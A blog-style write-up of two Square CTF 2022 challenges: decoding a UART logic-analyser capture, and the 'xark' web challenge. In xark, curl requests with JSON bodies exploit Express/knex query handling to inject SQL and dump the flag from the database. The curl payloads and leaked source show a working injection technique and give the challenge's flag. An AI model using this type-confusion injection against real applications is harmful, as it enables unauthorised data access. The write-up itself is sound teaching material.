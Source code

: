```yaml
---
title: "Square CTF 2022"
date: 2022-11-21
---
```


# Square CTF 2022

## [sqUARe paymenT terminal](https://2022.squarectf.com/challenge?square-payment-terminal)
misc  

sqUARe paymenT terminal is a UART challenge. A `Terminal_Cap.sal` file is provided. 

checking out the file:
```sh
$ file Terminal_Cap.sal
Terminal_Cap.sal: Zip archive data, at least v2.0 to extract, compression method=deflate

$ unzip Terminal_Cap.sal 
Archive:  Terminal_Cap.sal
  inflating: digital-0.bin           
  inflating: digital-1.bin           
  inflating: digital-2.bin           
  inflating: digital-3.bin           
  inflating: digital-4.bin           
  inflating: digital-5.bin           
  inflating: digital-6.bin           
  inflating: digital-7.bin           
  inflating: meta.json
```

We have 8 binary files and a `meta.json`. Fortunately, this file has some good clues:

<details>
  <summary>`meta.json`</summary>
  <pre id="json">             
  {
    "version": 15,
    "data": {
      "renderViewState": {
        "leftEdgeTimeSec": 2.347354838709678,
        "timeSecPerPixel": 0.0072688172043010755
      },
      "captureProgress": {
        "maxCollectedTime": 10.815999999999999,
        "processedInterval": {
          "begin": 0,
          "end": 10.837333333333333
        },
        "memoryUsedMb": 0,
        "isProcessing": false
      },
      "captureStartTime": {
        "unixTimeMilliseconds": 1667595522858,
        "fractionalMilliseconds": 0.56
      },
      "timingMarkers": {
        "markers": {},
        "pairs": {}
      },
      "measurements": [],
      "highLevelAnalyzers": [],
      "analyzers": [],
      "rowsSettings": [
        {
          "id": "b718c61e-499e-4190-bdcc-c2490165f32e",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 0",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 0
          }
        },
        {
          "id": "25e5f4a8-f0b4-4c4f-86f4-1e6148d47b30",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 1",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 1
          }
        },
        {
          "id": "c37287c6-be0a-4a06-8644-de1dcc84b038",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 2",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 2
          }
        },
        {
          "id": "39cc1040-bd89-4faf-ba36-d9884cc968d8",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 3",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 3
          }
        },
        {
          "id": "5c1c9b4e-ccb2-4e00-bea4-e257d2aa5785",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 4",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 4
          }
        },
        {
          "id": "8d93d75b-0896-4a10-a1ab-186cea0b80a3",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 5",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 5
          }
        },
        {
          "id": "fac1b78b-623e-48ee-8e47-0573eca9ddfb",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 6",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 6
          }
        },
        {
          "id": "97185903-d1b4-455c-9dd4-ad41686ae1ba",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 7",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 7
          }
        }
      ],
      "captureSettings": {
        "bufferSizeMb": 3072,
        "captureMode": "Circular",
        "stopAfterSeconds": 100,
        "trimAfterCapture": false,
        "trimTimeSeconds": 5,
        "digitalTriggerSettings": {
          "type": {
            "mode": "Edge",
            "name": "Rising",
            "pattern": "Rising"
          },
          "timeAfterTriggerToStop": 1,
          "linkedChannels": [],
          "duration": {
            "min": 0.001,
            "max": 0.01
          }
        },
        "glitchFilter": {
          "enabled": false,
          "channels": []
        },
        "connectedDevice": {
          "name": "Logic",
          "deviceId": "10367413859617842647",
          "deviceType": "Logic",
          "isSimulation": false,
          "capabilities": {
            "channelCapabilities": [
              {
                "type": "Digital",
                "index": 0,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 1,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 2,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 3,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 4,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 5,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 6,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 7,
                "capability": "AlwaysEnabled"
              }
            ],
            "sampleRateOptions": [
              {
                "digital": 24000000
              },
              {
                "digital": 16000000
              },
              {
                "digital": 12000000
              },
              {
                "digital": 8000000
              },
              {
                "digital": 4000000
              },
              {
                "digital": 2000000
              },
              {
                "digital": 1000000
              },
              {
                "digital": 500000
              },
              {
                "digital": 250000
              },
              {
                "digital": 200000
              },
              {
                "digital": 100000
              },
              {
                "digital": 50000
              },
              {
                "digital": 25000
              }
            ],
            "isPhysicalDevice": true
          },
          "settings": {
            "enabledChannels": [
              {
                "type": "Digital",
                "index": 0
              },
              {
                "type": "Digital",
                "index": 1
              },
              {
                "type": "Digital",
                "index": 2
              },
              {
                "type": "Digital",
                "index": 3
              },
              {
                "type": "Digital",
                "index": 4
              },
              {
                "type": "Digital",
                "index": 5
              },
              {
                "type": "Digital",
                "index": 6
              },
              {
                "type": "Digital",
                "index": 7
              }
            ],
            "sampleRate": {
              "digital": 24000000
            }
          }
        }
      },
      "digitalTriggerTime": -1,
      "name": "Session 0",
      "dataTable": {
        "columns": {
          "analyzerIdentifier": {
            "isActive": true,
            "width": 18,
            "isDefault": true,
            "baseKey": "analyzerIdentifier",
            "excludeFromSearch": true
          },
          "frameType": {
            "isActive": true,
            "width": 75,
            "isDefault": true,
            "baseKey": "frameType",
            "excludeFromSearch": false
          },
          "start": {
            "isActive": true,
            "width": 110,
            "isDefault": true,
            "baseKey": "start",
            "excludeFromSearch": true
          },
          "duration": {
            "isActive": true,
            "width": 80,
            "isDefault": true,
            "baseKey": "duration",
            "excludeFromSearch": true
          },
          "data_data": {
            "width": 75,
            "baseKey": "data",
            "isActive": false
          },
          "data_error": {
            "width": 75,
            "baseKey": "error",
            "isActive": false
          }
        }
      },
      "analyzerTrigger": {
        "settings": {
          "enabled": false,
          "searchQuery": "",
          "holdoffSeconds": 0.2
        }
      },
      "timeManager": {
        "t0": {
          "type": "startOfCapture"
        }
      },
      "captureNotes": ""
    },
    "binData": [
      {
        "type": "Digital",
        "index": 0,
        "file": "./digital-0.bin"
      },
      {
        "type": "Digital",
        "index": 1,
        "file": "./digital-1.bin"
      },
      {
        "type": "Digital",
        "index": 2,
        "file": "./digital-2.bin"
      },
      {
        "type": "Digital",
        "index": 3,
        "file": "./digital-3.bin"
      },
      {
        "type": "Digital",
        "index": 4,
        "file": "./digital-4.bin"
      },
      {
        "type": "Digital",
        "index": 5,
        "file": "./digital-5.bin"
      },
      {
        "type": "Digital",
        "index": 6,
        "file": "./digital-6.bin"
      },
      {
        "type": "Digital",
        "index": 7,
        "file": "./digital-7.bin"
      }
    ]
  }
  </pre>
</details>

Main clue that helped for me was `"captureMode": "Circular"`. Googling this led to the discussion forum of the Saleae Logic 2 [](https://discuss.saleae.com/). We download the software from the site and open the capture file. 

![terminalcap_saleae]({{"../assets/2022-11-21-Square_CTF_0222/terminalcap_saleae.png" | relative_url }})

[Lots](https://en.wikipedia.org/wiki/Universal_asynchronous_receiver-transmitter) [of](https://support.saleae.com/protocol-analyzers/analyzer-user-guides/using-async-serial/decode-uart) [reading](https://support.saleae.com/protocol-analyzers/analyzer-user-guides/using-async-serial) plus trial and error in the Logic software helped find the bitrate for analysis. By zooming into one part of the signal and highlighting (shift+click+drag), we can see the baud rate.

![big_analysis_mode]({{"../assets/2022-11-21-Square_CTF_0222/big_analysis_mode.png" | relative_url }})

We use google again and get 38.4 kHz baud rate = 38400 bits/s. Enter this into the Async Serial Analyzer and we get our flag.

![big_analysis_mode_2]({{"../assets/2022-11-21-Square_CTF_0222/big_analysis_mode_2.png" | relative_url }})  

![big_analysis_mode_3]({{"../assets/2022-11-21-Square_CTF_0222/big_analysis_mode_3.png" | relative_url }})


## [xark](https://2022.squarectf.com/challenge?xark)
web  

xark is an anonymous messaging website with provided source files. Sending SQL 
injections and xss payloads do not seem to work.

![xark mainpage]({{"../assets/2022-11-21-Square_CTF_0222/xark.png" | relative_url }})

### deadends

[knex cve](https://www.cvedetails.com/cve/CVE-2019-10757/)  
An old version of knex was vulnerable to sql injection. We know from package.json (`"knex": "^2.3.0",`) that this version of knex is not vulnerable to this.


/debug  

```json
{"client":"mysql","connection":{"host":"database","port":"3306","user":"xark","password":"*******","database":"xark","charset":"utf8mb4"}}
```


/crushes.js  
```js
document.addEventListener("DOMContentLoaded", () => {
    record.onsubmit = ev => {
      $('#recordSpinner').show();
      $.post("/record", $(record).serialize(), () => {
        $(main).empty();
        $('<p>').text("Saved!").appendTo(main);
      })
      .fail((jqXHR) => {
        console.error(jqXHR);
        $(main).empty();
        $('<code>').text("error: " + jqXHR.responseJSON.error).appendTo(main);
      });
      return false;
    }

    view.onsubmit = ev => {
      $('#viewSpinner').show();
      $.post("/data", $(view).serialize(), (data) => {
        if (data.length == 0) {
          $(main).empty();
          $('<i>').text("Sorry, no crushes :(").appendTo(main);
        } else {
          $(main).empty();
          $('<p>').html("<p>You have " + data.length + " crushes :)</p>").appendTo(main);
          const d = $('<ul>').appendTo(main);
          data.map(e => $('<li>').text(e.message).appendTo(d));
        }
      })
      .fail((jqXHR) => {
        console.error(jqXHR);
        $(main).empty();
        $('<code>').text("error: " + jqXHR.responseJSON.error).appendTo(main);
      });
      return false;
    };
});
```

### sending json

We know the flag is in the db.

index.js
```js
knex('crushes').insert({
            from: config.init.flag,
            to: config.init.flag,
            message: 'This is the flag!',
        }).then();
```

We must be able to pull this flag out of the db using the `/data` endpoint? But it seems that we only have control of the line `to: req.body.to`.
```js
app.post('/data', async (req, res) => {
    if (req.body.to) {
        const crushes = await knex('crushes')
            .select()
            .where({
                to: req.body.to
            })
            .limit(50);
        res.send(crushes);
    } else {
        res.status(400).send({});
    }
});
```

Lines 34-36 of index.js have an interesting import 
```js
app.use(express.urlencoded({
    extended: false
}));
```
The [express docs](https://expressjs.com/en/api.html#express.urlencoded) state that `express.urlencoded()`:

  `Returns middleware that only parses urlencoded bodies and only looks at requests where the Content-Type header matches the type option. `

In the parameters table, we see that the default value for the `type` parameter is `"application/x-www-form-urlencoded"`. If we send json then does the middleware not look at the request?

Sending some json, we can see the sql queries.
```sh
$ curl -d '{"to":"n","from":"m","message":["a","b"]}' -H "Content-Type: application/json" -X POST http://chals.2022.squarectf.com:4105/record
{"error":"insert into `crushes` (`from`, `message`, `to`) values ('m', 'a', 'b', 'n') - ER_WRONG_VALUE_COUNT_ON_ROW: Column count doesn't match value count at row 1"}%

$ curl -d '{"to":["n","m"]}' -H "Content-Type: application/json" -X POST http://chals.2022.squarectf.com:4105/data
{"error":"select * from `crushes` where `to` = 'n', 'm' limit 50 - ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ', 'm' limit 50' at line 1"}%
```

### solution

We get the flag by sending a request with `{"id":0}` in the `"to:"` field.

```sh
$ curl -d '{"to": {"id":0} }' -H "Content-Type: application/json" -X POST http://chals.2022.squarectf.com:4105/data
[{"id":1,"from":"flag{kn3x3d_chall3ng3_pls}","to":"flag{kn3x3d_chall3ng3_pls}","message":"This is the flag!"},{"id":2,"from":"a","to":"b","message":"...
<...>
```